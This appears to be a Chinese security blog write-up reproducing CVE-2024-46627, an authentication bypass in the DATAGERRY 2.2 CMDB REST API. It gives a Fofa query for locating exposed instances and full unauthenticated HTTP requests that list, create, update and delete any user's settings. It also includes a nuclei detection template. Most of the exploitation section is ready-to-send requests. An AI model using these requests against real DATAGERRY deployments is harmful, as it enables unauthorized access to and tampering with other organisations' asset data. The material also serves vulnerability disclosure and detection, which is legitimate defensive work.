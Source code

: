 0X01 产品描述：

        ‌DATAGERRY是一个灵活的开源CMDB和资产管理工具，它完全将数据模型的定义留给用户。‌ 用户只需在一个易于使用的webfrontend中定义自己的对象类型（如服务器、路由器、租赁线路、位置等）。通过DATAGERRY的导出API，存储在DATAGERRY中的CMDB对象可以轻松地导出到外部系统，如监控系统、票据系统、配置管理等‌        

0x02 漏洞描述：

        DATAGERRY 2.2版本存在安全漏洞，该漏洞源于REST API 中缺少对以下端点的访问控制(/rest/users/<id>/settings/)，这允许攻击者在未经身份验证的情况下读取任何用户的设置、创建设置、删除设置和更新设置。

0x03 影响版本：

DATAGERRY ：2.2

0x04 搜索语句：

Fofa：title="datagerry"
0x05 漏洞复现：

该漏洞只出现在V2.2版本中，在REST API中缺少了对以下端点的访问控制，导致实现对用户配置增删改查

问题api

- /rest/users/<id>/settings/（获取、发布）

- /rest/users/<id>/settings/<setting>（删除、放置）

具体配置可以参考官网配置文档进行接口请求包构造：

2. [User Management — DATAGERRY undefined documentation](https://datagerry.readthedocs.io/en/latest/api/rest/user-management.html#settings)

复现过程：

获取所有设置对象：

```
GET /rest/users/1/settings/ HTTP/1.1
Host: your-ip
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Content-Type: application/x-www-form-urlencoded
Connection: close
```



![img](https://i-blog.csdnimg.cn/direct/1f7243f45c444706a1d8a3a219c7d040.png)


查询特定的某一个设置对象：

注意这里settings后的路由换成所想查询的resource数据

```
GET /rest/users/1/settings/framework-type?typeAddSuccess=3 HTTP/1.1
Host: your-ip
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Content-Type: application/json
Connection: close
```



![img](DATAGERRY%20REST%20API%E8%BA%AB%E4%BB%BD%E9%AA%8C%E8%AF%81%E7%BB%95%E8%BF%87%E6%BC%8F%E6%B4%9E(CVE-2024-46627).assets/f8ee22c034024bfaa5d61cad59130c50.png)


 任意对象创建：

```
POST /rest/users/1/settings/ HTTP/1.1
Host: your-ip
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Content-Type: application/json,text/plain,*/*
Connection: close
 
{
    "resource" : "framework-object-type-51121",
    "user_id" : 1,
    "setting_type" : "APPLICATION"
}
```



![img](https://i-blog.csdnimg.cn/direct/b48812dbc46c49528e951e89cf2f482d.png)


更新所创建的对象数据：

```
PUT /rest/users/1/settings/framework-object-type-5111 HTTP/1.1
Host: your-ip
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Content-Type: application/json,text/plain,*/*
Connection: close
 
{
    "resource" : "framework-object-type-5111",
    "user_id" : 1,
    "payload" : {},
    "setting_type" : "GLOBAL"
}
```



![img](DATAGERRY%20REST%20API%E8%BA%AB%E4%BB%BD%E9%AA%8C%E8%AF%81%E7%BB%95%E8%BF%87%E6%BC%8F%E6%B4%9E(CVE-2024-46627).assets/8c1f2269fc4d406faf701ccf0f4e41b4.png)


 删除所选定的对象数据

```
DELETE /rest/users/1/settings/framework-object-type-51121 HTTP/1.1
Host: your-ip
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Content-Type: application/json,text/plain,*/*
Connection: close
```

![img](https://i-blog.csdnimg.cn/direct/fd838d1a4b7b4b85985546de0ddad4b4.png)


附源自nuclei官网的poc 

```yaml
id: CVE-2024-46627
 
info:
  name: DATAGERRY - REST API Auth Bypass
  author: gy741
  severity: critical
  description: |
    Incorrect access control in BECN DATAGERRY v2.2 allows attackers to execute arbitrary commands via crafted web requests.
  impact: |
    Allows unauthorized access to REST API
  reference:
    - https://nvd.nist.gov/vuln/detail/CVE-2024-46627
    - https://daly.wtf/cve-2024-46627-incorrect-access-control-in-becn-datagerry-v2-2-allows-attackers-to-execute-arbitrary-commands-via-crafted-web-requests/
    - https://datagerry.com/
    - https://github.com/DATAGerry/
    - https://github.com/d4lyw/CVE-2024-46627
  classification:
    cvss-metrics: CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:N
    cvss-score: 9.1
    cve-id: CVE-2024-46627
    cwe-id: CWE-284
    epss-score: 0.00045
    epss-percentile: 0.16328
  metadata:
    verified: true
    max-request: 1
    vendor: becon
    product: datagerry
    shodan-query: http.title:"datagerry"
  tags: cve,cve2024,becon,datagerry,unauth,auth-bypass
 
http:
  - method: GET
    path:
      - '{{BaseURL}}/rest/users/1/settings/'
 
    matchers-condition: and
    matchers:
      - type: word
        part: body
        words:
          - '"response_type":'
          - '"model":'
          - '"time":'
        condition: and
 
      - type: word
        part: content_type
        words:
          - "application/json"
# digest: 4a0a00473045022040420efc711ffd5727fa72189da9f4e2830a0a1bd247edefb9c439
```

